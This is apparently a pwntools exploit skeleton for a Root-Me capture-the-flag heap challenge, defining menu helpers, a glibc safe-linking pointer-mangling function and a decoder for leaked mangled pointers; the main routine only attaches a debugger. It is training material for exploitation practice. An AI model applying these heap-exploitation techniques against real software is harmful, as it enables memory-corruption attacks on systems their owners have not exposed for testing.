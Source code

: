 creating some helpers 
```python
#!/usr/bin/env python3
from pwn import *
context.update(os="linux", arch = "amd64", log_level="debug")
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.32.so")
context.binary = exe
#p = process("./chall_patched")
p = remote("challenge03.root-me.org", 56589)
def alpha(heap, target):
    return target ^ (heap >> 0xc)

def x(): gdb.attach(p)
def sl(choice): p.sendlineafter(b"Choice?\n", str(choice))
def add(idx,size,content:bytes):
    sl(1)
    p.sendlineafter("Index:", str(idx))
    p.sendlineafter("Size:", str(size))
    p.sendafter("Data:", content)

def free(idx):
    sl(2)
    p.sendlineafter("Index:", str(idx))

def edit(idx,content:bytes):
    sl(3)
    p.sendlineafter("Index:", str(idx))
    p.sendafter("Data:", content)
def show(idx):
    sl(4)
    p.sendlineafter("Index:", str(idx))

def freeze(idx):
    sl(5)
    p.sendlineafter("Index:", str(idx))

def decrypt(cipher):
    key = 0
    for i in range(1, 6):
        bits = 64 - 12 * i
        if bits < 0:
            bits = 0
        plain = ((cipher ^ key) >> bits) << bits
        key = plain >> 12
    return plain

def main():
    x()
    p.interactive()

if __name__ == "__main__":
    main()

```
